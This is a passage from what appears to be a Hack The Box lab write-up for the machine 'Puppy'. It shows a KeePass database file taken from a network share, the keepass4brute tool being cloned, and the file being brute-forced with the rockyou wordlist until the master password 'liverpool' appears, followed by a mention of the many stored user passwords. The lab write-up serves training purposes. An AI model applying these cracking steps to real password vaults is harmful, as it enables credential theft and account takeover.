 ```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Puppy/files]
└─$ ls -lah /tmp/nxc_hosted/nxc_spider_plus/10.129.184.6/DEV/
total 4.0K
drwxrwxr-x 2 kali kali   60 May 17 21:22 .
drwxrwxr-x 4 kali kali   80 May 17 21:22 ..
-rw-rw-r-- 1 kali kali 2.7K May 17 21:22 recovery.kdbx
```

## Privilege Escalation to ant.edwards

### Cracking the KeePassXC Database Password

Since `keepass2john` didn't support the `version` of the `database` our man `trustie_rity` came up with a nice tool called `keepass4brute`.

- [https://github.com/r3nt0n/keepass4brute](https://github.com/r3nt0n/keepass4brute)

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Puppy/files]
└─$ git clone https://github.com/r3nt0n/keepass4brute
Cloning into 'keepass4brute'...
remote: Enumerating objects: 24, done.
remote: Counting objects: 100% (24/24), done.
remote: Compressing objects: 100% (21/21), done.
remote: Total 24 (delta 10), reused 9 (delta 2), pack-reused 0 (from 0)
Receiving objects: 100% (24/24), 18.26 KiB | 1.22 MiB/s, done.
Resolving deltas: 100% (10/10), done.
```

The use of the tool was pretty straight forward and within seconds we got the `password` for the database `brute forced`.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Puppy/files/keepass4brute]
└─$ ./keepass4brute.sh ../recovery.kdbx /usr/share/wordlists/rockyou.txt 
keepass4brute 1.3 by r3nt0n
https://github.com/r3nt0n/keepass4brute

[+] Words tested: 36/14344392 - Attempts per minute: 90 - Estimated time remaining: 15 weeks, 5 days
[+] Current attempt: liverpool

[*] Password found: liverpool
```

| Password  |
| --------- |
| liverpool |

### Investigating KeePassXC Database

The database contained a lot of `passwords` for various `users`.

